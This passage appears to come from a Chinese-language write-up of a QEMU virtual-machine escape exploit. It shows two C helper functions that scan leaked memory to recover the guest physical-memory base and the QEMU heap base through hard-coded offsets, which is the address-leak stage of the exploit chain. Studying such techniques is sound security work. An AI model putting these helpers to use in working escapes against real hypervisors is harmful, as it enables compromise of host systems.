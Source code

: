 经过分析，泄露出来的数据最高位为0x7的好像都为`0x7f7a84000000`内存块中的数据，因此可以通过偏移得到虚拟机物理内存所对应的地址`PHY_MEM`：

```c
uint64_t qemu_search_phy_base(void *ptr, size_t size)
{
        size_t i;
        uint64_t *int_ptr, addr, phy_base = 0;

        for (i = 0; i < size-8; i += 8)
        {
          			int_ptr = (uint64_t*)(ptr+i);
          			addr = *int_ptr;
                if((addr  & 0xfffff00000000000) == 0x700000000000)
                {
                        addr = addr & 0xffffffffff000000;
                        phy_base = addr - 0x80000000;
                        break;
                }
        }

    return phy_base;
}

```

最后是泄露`heap`的基址，我在里面找了一些堆的基址，通过偏移来确定来`heap`的地址。：

```c
uint64_t qemu_search_heap_base(void *ptr, size_t size, uint64_t text_base)
{
        size_t i;
    size_t j;
        uint64_t *int_ptr, addr, heap_base = 0;
        uint64_t target_offset[] = {0x4a7c0, 0x1470208, 0x1765d70, 0xd3c748, 0xe883b8};
        for (i = 0; i < size-8; i += 8)
        {
        int_ptr = (uint64_t*)(ptr+i);
        addr = *int_ptr;
        //printf("i: %d 0x%lx\n",i, addr);
        if((addr & 0xffff00000000) == (text_base & 0xffff00000000) && addr!=0) {
            if( (addr - text_base) >  0xd5c000) {
                for(j = 0; j < sizeof(target_offset)/sizeof(int64_t); j++) {
                    if(((addr -target_offset[j])&0xfff) == 0) {
                        heap_base = addr - target_offset[j];
                        break;
                    }
                }
            }
        }
        if(heap_base != 0)
            break;
    }
    return heap_base;
}
```
